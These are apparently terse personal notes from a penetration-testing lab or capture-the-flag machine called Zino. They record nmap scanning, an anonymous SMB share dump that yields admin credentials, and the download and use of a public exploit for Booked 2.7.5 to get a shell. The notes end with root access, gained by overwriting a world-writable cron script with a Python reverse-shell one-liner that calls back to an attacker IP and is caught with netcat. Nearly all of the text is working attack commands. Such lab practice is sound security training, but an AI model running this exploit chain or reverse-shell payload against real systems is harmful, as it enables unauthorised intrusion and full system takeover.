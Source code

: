 # Zino
# date 1/8/2023
# ip 192.168.219.64

# nmap 
sudo nmap 192.168.249.64 -p- -sV -sS

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql?
8003/tcp open  http        Apache httpd 2.4.38
Service Info: Hosts: ZINO, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



# smb

smbmap -u '' -p '' -R -H 192.168.219.64

smbclient -U '' \\\\192.168.219.64\\zino 
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> recurse
smb: \> prompt off
smb: \> mget *

investicate everything we got
target have user called peter
For an unknown verification we have the credentials admin: adminadmin.

# http://192.168.219.64:8003

I entered the credentials we found earlier of admin:adminadmin and was able to log in to the application.

└─$ searchsploit Booked  2.7.5 
searchsploit -m php/webapps/50594.py


# exploit 
└─$ python 50594.py http://192.168.219.64:8003 admin adminadmin
we got shell

# priv esc

cat /etc/crontab

$ ls -la python /var/www/html/booked/cleanup.py
-rwxrwxrwx 1 www-data www-data 164 Apr 28  2020 /var/www/html/booked/cleanup.py



└─$ nc -lvnp 21                               

echo ' ' > /var/www/html/booked/cleanup.py


echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.222",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /var/www/html/booked/cleanup.py

we got root
